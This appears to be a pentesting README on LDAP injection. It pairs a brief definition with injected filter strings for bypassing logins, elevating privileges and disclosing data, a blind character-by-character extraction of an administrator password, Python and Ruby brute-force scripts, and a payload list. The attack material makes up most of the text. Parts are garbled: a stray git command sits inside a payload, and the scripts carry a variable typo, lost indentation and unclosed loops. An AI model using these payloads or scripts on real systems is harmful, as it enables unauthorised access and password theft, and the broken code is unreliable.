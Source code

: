 # LDAP INJECTION

## What Is LDAP Injection?

Lightweight Directory Access Protocol (LDAP) injection is a vulnerability in which queries are constructed from untrusted input without prior validation or sanitization. LDAP uses queries constructed from predicates that involve the use of special characters (e.g., brackets, asterisks, ampersands, or quotes). Metacharacters such as these control the meaning of the query; thereby, affecting the type and number of objects retrieved from the underlying directory. If an attacker can submit input containing these control characters, they can alter the query and change the intended behavior.

 - [LDAP Injection](https://github.com/armourinfosec/Offensive-Pentesting-Web/blob/main/Injections/LDAP-Injection/README.md#what-is-ldap-injection)
   
   - [Types of LDAP Injection Attacks](https://github.com/armourinfosec/Offensive-Pentesting-Web/blob/main/Injections/LDAP-Injection/README.md#what-is-ldap-injection)

      - [Access Control Bypass](https://github.com/armourinfosec/Offensive-Pentesting-Web/blob/main/Injections/LDAP-Injection/README.md#access-control-bypass)
      - [Elevation of Privileges](https://github.com/armourinfosec/Offensive-Pentesting-Web/blob/main/Injections/LDAP-Injection/README.md#elevation-of-privileges)
      - [Information Disclosure](https://github.com/armourinfosec/Offensive-Pentesting-Web/blob/main/Injections/LDAP-Injection/README.md#information-disclosure)

   - [LDAP Injection Using Logical Operators](https://github.com/armourinfosec/Offensive-Pentesting-Web/blob/main/Injections/LDAP-Injection/README.md#ldap-injection-using-logical-operators)

   - [Exploitation](https://github.com/armourinfosec/Offensive-Pentesting-Web/blob/main/Injections/LDAP-Injection/README.md#exploitation)
   - [Scripts](https://github.com/armourinfosec/Offensive-Pentesting-Web/blob/main/Injections/LDAP-Injection/README.md#scripts)

## Access Control Bypass

    (&(USER=Uname)(PASSWORD=Pwd)) (&(USER=john90)(&))(PASSWORD=Pwd))

## Elevation of Privileges

    "Information)(security_level=*))(&(directory=documents"
    (&(directory=Information)(security_level=*))(&(directory=Information)
    git add README.md(security_level=low))

## Information Disclosure

    (|(type=Resource1)(type=Resource2)) (|(type=Jeans)(uid=*))(type=T-Shirts)
    
# LDAP Injection Using Logical Operators

     AND LDAP Injection

     (&(parameter1=value1)(parameter2=value2))


     AND Blind LDAP Injection
     (&(objectClass=*)(objectClass=users))(&(objectClass=foo)(type=Puma*))

     (&(objectClass=*)(objectClass=Resources))(&(objectClass=foo)(type=Puma*))


     OR LDAP Injection

     (|(parameter=value1)(parameter2=value2))


     OR Blind LDAP Injection

     (|(objectClass=void)(objectClass=users))(&(objectClass=void)(type=Puma*))

     (|(objectClass=void)(objectClass=Resources))(&(objectClass=void)(type=Puma*))    

 # Exploitation
 
  ## Example 1.
 
     user  = *)(uid=*))(|(uid=*
     pass  = password
     query = "(&(uid=*)(uid=*)) (|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))"

# Blind Exploitation

     We can extract using a bypass login

     (&(sn=administrator)(password=*))    : OK
     (&(sn=administrator)(password=A*))   : OK
     (&(sn=administrator)(password=B*))   : OK
     ...
     (&(sn=administrator)(password=M*))   : OK
     (&(sn=administrator)(password=MA*))  : OK
     (&(sn=administrator)(password=MB*))  : OK
     ...
     (&(sn=administrator)(password=MY*))  : OK
     (&(sn=administrator)(password=MYA*)) : OK
     (&(sn=administrator)(password=MYB*)) : OK
     (&(sn=administrator)(password=MYC*)) : OK
     ...
     (&(sn=administrator)(password=MYK*)) : OK
     (&(sn=administrator)(password=MYKE)) : OK

# Scripts

 ## Discover valid LDAP fields

    #!/usr/bin/python3

    import requests
    import string

    fields = []

    url = 'https://URL.com/'

    f = open('dic', 'r') #Open the wordlists of common attributes
    wordl = f.read().split('\n')
    f.close()

    for i in world:
      r = requests.post(url, data = {'login':'*)('+str(i)+'=*))\x00', 'password':'bla'}) #Like (&(login=*)(ITER_VAL=*))\x00)(password=bla))
      if 'TRUE CONDITION' in r.text:
         fields.append(str(i))

    print(fields)
    
## Special blind LDAP injection (without “*”)
## Python
       #!/usr/bin/python3

       import requests, string
       alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

       flag = ""
       for i in range(50):
       print("[i] Looking for number " + str(i))
       for char in alphabet:
       r = requests.get("http://ctf.web?action=dir&search=admin*)(password=" + flag + char)
       if ("TRUE CONDITION" in r.text):
       flag += char
       print("[+] Flag: " + flag)
       break
## Ruby
       #!/usr/bin/env ruby

       require 'net/http'
       alphabet = [*'a'..'z', *'A'..'Z', *'0'..'9'] + '_@{}-/()!"$%=^[]:;'.split('')

       flag = ''

       (0..50).each do |i|
       puts("[i] Looking for number #{i}")
       alphabet.each do |char|
       r = Net::HTTP.get(URI("http://ctf.web?action=dir&search=admin*)(password=#{flag}#{char}"))
       if /TRUE CONDITION/.match?(r)
       flag += char
       puts("[+] Flag: #{flag}")
       break

    
# Payloads

    *
    *)(&
    *))%00
     )(cn=))\x00
     *()|%26'
     *()|&'
     *(|(mail=*))
     *(|(objectclass=*))
     *)(uid=*))(|(uid=*
     */*
     *|
     /
     //
     //*
     @*
     |
     admin*
     admin*)((|userpassword=*)
     admin*)((|userPassword=*)
     x' or name()='username' or 'x'='y

    
# References

  [OWASP](https://owasp.org/www-community/attacks/LDAP_Injection)  
  [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LDAP%20Injection)  
  [ldap](https://ldap.com/basic-ldap-concepts/)  
  [okta](https://www.okta.com/identity-101/what-is-ldap/)
  
